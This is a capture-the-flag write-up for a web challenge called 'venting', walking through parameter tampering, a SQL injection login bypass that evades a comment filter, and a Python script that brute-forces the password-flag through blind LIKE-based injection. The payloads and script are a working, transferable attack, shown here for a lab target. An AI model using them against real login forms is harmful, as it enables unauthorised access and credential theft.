



# venting

Categories: Web

Description:
> BHmmmm. This website is kinda sus... Can you become the imposter and vent towards the flag?

## Takeaways

Simple blind SQL injection. Content-based SQLi or time-based SQLi works.

## Solution

Upon vising the website we are presented with the following page.


So, let's send a request and see what happens.



As we can see, several requests are sent out. The `GET /inthevents` stands out as it contains an `isAdmin` parameter. So we change it to `true` and repeat the request.




We follow this secret location and we are presented with a pretty simple admin-login page.

```html
<!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" href="static/css/bootstrap.min.css">
    <title>Imposter!</title>
</head>
<!-- 
Okay sqlite is pretty cool but idk if i trust it
i learned this regex thing to stop bad people from logging in
but if that fails, i still have one card up my sleeve >:)
-->
<body>
    <h1> You vented to admin! Now login with your credentials "admin"
    </h1>
    <h2>
        <form action="/fff5bf676ba8796f0c51033403b35311/login" method="POST">
            <label class="form-label mt-4" for="user">Username:</label>
            <input class="form-control" type="text" id="user" name="user"><br>
            <label class="form-label mt-4" for="pass">Password:</label>
            <input class="form-control" type="text" id="pass" name="pass"><br>
            <input class="form-control" type="submit" value="Login">
        </form> 
    </h2>
</body>
</html>
```



The comment hints that this is SQL-lite and we should probably do an SQL injection attack. Upon entering `foo'` as `user` and `bar` as `pass`, we are immediately presented with an error:

`Error when executing statement -> near "bar": syntax error SELECT * from users WHERE username='foo'' AND Password = 'bar';`

So this is definitely vulnerable to SQLi. We try the most basic payload `foo' OR 1=1 -- - `. But the error message now is:

`Error when executing statement -> near "ඞඞ": syntax error SELECT * from users WHERE username='foo' OR 1=1 ඞඞ ඞ ' AND Password = 'bar';`

With some more testing, we figure out that the application replaces `--` (comment) with `ඞඞ`. So, next I tried leaving an open comment to see what happens: `foo' OR 1=1 /*`. We successfully bypass the login as the rest of the query got commented away:

`If you're getting this you're not me. You'll never log in! ALSO I DIDNT HIDE ANYTHING IN MY PASSWORD SO DONT TRY!`

From the response, it seems that the password is in the flag. So we have to leak it. This is also a blind SQLi as the application does not respond with the query's data. Remember that the original query is `SELECT * from users WHERE username='foo' AND Password = 'bar';`. We will comment out the password part and replace it with a content-based blind SQLi query. So, the eventual query will look like:

`SELECT * from users WHERE username='admin' AND Password LIKE 'UMASS{XXX%' /*...`

where we will brute-force the password byte-by-byte.

```python
import requests
import urllib3
import string
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


proxyDict = {
    "http"  : 'http://127.0.0.1:8080',
    "https" : 'http://127.0.0.1:8080',
}

password = 'UMASS{'
alphabet = string.digits + string.ascii_letters
while(not password.endswith('}')):
    print(password)

    found = False # If no character is found in the alphabet, append the closing '}' 
    for ch in alphabet:
        new_password = password + ch
        r = requests.post('http://127.0.0.1:4446/fff5bf676ba8796f0c51033403b35311/login',
            data = {
                'user' : f"admin' AND password LIKE '{new_password}%' /*",
                'pass' : ""
            },
            proxies=proxyDict,
            verify=False,
            allow_redirects=False
        )
        assert(r.status_code == 200)
        if r.text == "If you're getting this you're not me. You'll never log in! ALSO I DIDNT HIDE ANYTHING IN MY PASSWORD SO DONT TRY!":
            password = new_password
            found = True
            break

    if found == False:
        password += '}'

print(password) # UMASS{7h35u55y1mp0573rcr4ck57h3c0d3}
```

So the flag is `UMASS{7h35u55y1mp0573rcr4ck57h3c0d3}`.
